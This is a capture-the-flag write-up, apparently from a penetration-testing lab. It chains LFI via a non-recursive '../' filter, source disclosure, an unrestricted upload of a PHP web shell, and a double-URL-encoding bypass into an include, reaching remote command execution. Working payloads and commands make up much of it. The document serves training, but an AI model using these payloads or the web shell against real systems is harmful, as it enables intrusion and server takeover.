






## Scenario

> You have been contracted by Sumace Consulting Gmbh to carry out a web application penetration test against their main website. During the kickoff meeting, the CISO mentioned that last year's penetration test resulted in zero findings, however they have added a job application form since then, and so it may be a point of interest.

Access via: `http://154.57.164.70:36312`


## Reconnaissance

Browsed the site's three pages: the homepage, `/contact.php`, and `/apply.php`. The apply page contained a job application form with a file upload field restricted (per its label) to `.docx` and `.pdf`.




Viewed the page source of `apply.php` and found two back-end endpoints referenced that the rendered page itself didn't otherwise expose:

```html
<form action="/api/application.php" method="POST" enctype="multipart/form-data">
—SNIP—

```

This gave two candidate targets beyond the two visible pages: `/api/application.php` (the form's upload handler) and `/api/image.php` (loading images via a `p` parameter).

## Parameter Fuzzing

Fuzzed `contact.php` for GET parameters not visible in its rendered HTML, since it had no obvious form of its own:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.70:36312/contact.php?FUZZ=value' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ic -c -fs 1771

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.70:36312/contact.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1771
________________________________________________

region                  [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 35ms]
:: Progress: [6453/6453] :: Job [1/1] :: 1136 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

**Breakdown:**

- `-u 'http://154.57.164.70:36312/contact.php?FUZZ=value'` the target, with `FUZZ` substituted by each wordlist entry as a parameter name and `value` a fixed dummy value
- `-w /usr/share/wordlists/seclists/.../burp-parameter-names.txt` a wordlist of common parameter names
- `-ic` ignores comments in the wordlist
- `-c` colours the output
- `-fs 1771` filters out the baseline response size

A single parameter, `region`, produced a different response size, identifying a hidden input not tied to any visible form.

## Confirming LFI on image.php

Fuzzed the `p` parameter on `/api/image.php` with an LFI wordlist:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.70:36312/api/image.php?p=FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -c -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.70:36312/api/image.php?p=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 35ms]
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 35ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 35ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 35ms]
....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 34ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 36ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 36ms]
....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 36ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 36ms]
....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 35ms]
:: Progress: [930/930] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

**Breakdown:**

- `?p=FUZZ` targets the `p` parameter identified from the page source
- `-fs 0` filters out empty responses 

Several depths of `....//` traversal against `/etc/passwd` returned a different, non-empty response size. Hypothesis: `....//` working suggests the filter strips `../` only once rather than recursively — if it stripped recursively, `....//` would have been reduced all the way down and wouldn’t have resolved to a working traversal.

Tried the shortest working payload directly in the browser:

```
http://154.57.164.70:36312/api/image.php?p=....//....//....//....//etc/passwd
```

The browser reported the image couldn't be displayed for some reason. 



Re-ran the same request with curl instead:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//....//....//....//etc/passwd'                                                   

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
```

The file content came back successfully through curl. Hypothesis: `image.php`'s endpoint most likely doesn't execute code — only reads and returns file content — which would also explain why the browser rendered nothing (the response wasn't a valid image). To confirm this, decided to try reading the endpoint's own source code.

## Reading Source Code Through the LFI

Attempted to read `image.php`'s own source using the same traversal depth used for `/etc/passwd`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//....//....//...//api/image.php'
```

Nothing returned. Tried adjusting the traversal count up and down:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//....//....//...//api/image.php'       

┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=api/image.php'
    
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=//api/image.php'  

┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//api/image.php'  

<?php
if (isset($_GET["p"])) {
    $path = "../images/" . str_replace("../", "", $_GET["p"]);
    $contents = file_get_contents($path);
    header("Content-Type: image/jpeg");
    echo $contents;
}
?>       
```

Confirmed: a single `....//` was the correct depth. The source shows the script prepends a fixed `../images/` base, strips `../` from the input exactly once and only reads and echoes file content via `file_get_contents()` — it never executes anything, confirming the earlier hypothesis. This also explains why the browser showed nothing for the `/etc/passwd` request earlier: the script unconditionally sends an `image/jpeg` content-type header regardless of what the file actually contains, so the browser tried and failed to render plain text as an image, while curl displayed the raw response correctly.

Used the same technique to read `/api/application.php`, the form's upload handler:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//api/application.php'  

<?php
$firstName = $_POST["firstName"];
$lastName = $_POST["lastName"];
$email = $_POST["email"];
$notes = (isset($_POST["notes"])) ? $_POST["notes"] : null;

$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);

header("Location: /thanks.php?n=" . urlencode($firstName));
?>       
```

This revealed that the upload handler performs no extension whitelist at all — the extension is taken as whatever follows the last `.` in the uploaded filename, and the file is stored in `../uploads/` as `<md5 of the file's contents>.<that extension>`. The `.docx, .pdf` restriction shown on the form is not enforced, so a file named `shell.php` would upload and be stored as `<md5>.php` without modification.

Used the same technique to read `contact.php`, where the `region` parameter was found:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.70:36312/api/image.php?p=....//contact.php'  

—SNIP—
                    <?php
                    $region = "AT";
                    $danger = false;

                    if (isset($_GET["region"])) {
                        if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
                            echo "'region' parameter contains invalid character(s)";
                            $danger = true;
                        } else {
                            $region = urldecode($_GET["region"]);
                        }
                    }

                    if (!$danger) {
                        include "./regions/" . $region . ".php";
                    }
                    ?>
—SNIP—
```

**Breakdown of the vulnerable logic:**

- `if (isset($_GET["region"]))` only runs the check when `region` is present in the request
- `str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")` rejects the request if the raw, auto-decoded `$_GET["region"]` value contains a literal `.` or `/` — since PHP decodes the query string once automatically before populating `$_GET`, a single-encoded payload (`%2E`, `%2F`) is already decoded back to `.`/`/` by this point and gets caught
- `$region = urldecode($_GET["region"]);` — only reached when the check passes — decodes the value a _second_ time; a payload that is double-encoded survives the character check (since after PHP's one automatic decode it still contains no literal `.` or `/`) and only becomes a real traversal path after this explicit second decode
- `include "./regions/" . $region . ".php";` always appends a literal `.php` to whatever `$region` resolves to and includes it as executable PHP — unlike `image.php`, this function executes the included file rather than just reading its contents

This identified `region` as a true LFI-to-RCE vector (via `include`), distinct from `image.php`'s read-only disclosure.

Also read `apply.php` the same way, confirming it matched the page already seen in the browser with no further hidden logic.

## Gaining RCE

Crafted a basic PHP web shell:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '<?php system($_GET["cmd"]); ?>' > shell.php    
```

Computed its MD5 checksum in advance, since the upload handler names stored files by the MD5 of their contents:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ md5sum shell.php

fc023fcacb27a7ad72d605c4e300b389  shell.php
```

Uploaded `shell.php` as-is through the Apply form — no renaming or interception needed, since the source read earlier confirmed no extension check exists server-side. 


The upload succeeded and redirected to `thanks.php`, consistent with `application.php`'s logic.



Built the inclusion path. Since `contact.php` appends `.php` to `$region` automatically, the path needed no extension of its own:

```
../uploads/fc023fcacb27a7ad72d605c4e300b389
```

Double URL-encoded this path (and only this path — not the `cmd` parameter) using CyberChef's URL-encode recipe applied twice:



```
%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389
```

Assembled the final request, keeping `cmd=id` as its own separate, singly-encoded parameter outside the double-encoded blob so it would still be parsed as a distinct `$_GET["cmd"]` value once the shell executed:

```
http://154.57.164.70:36312/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=id
```

**Breakdown:**

- `region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389` the double-encoded traversal path to the uploaded shell, passing the character filter and resolving correctly after `contact.php`'s own `urldecode()` call
- `&cmd=id` a genuine separate GET parameter, read by the web shell once `include` executes it as PHP


```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE confirmed.

## Locating and Reading the Flag

Listed the filesystem root:

```
http://154.57.164.70:36312/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=ls+/
```



```
bin boot dev etc flag_09ebca.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

Found `flag_09ebca.txt` at root. Read it:

```
http://154.57.164.70:36312/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=cat+/flag_09ebca.txt
```

```
—REDACTED— 
```



### Question 1 — Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

**Answer:** `—REDACTED—`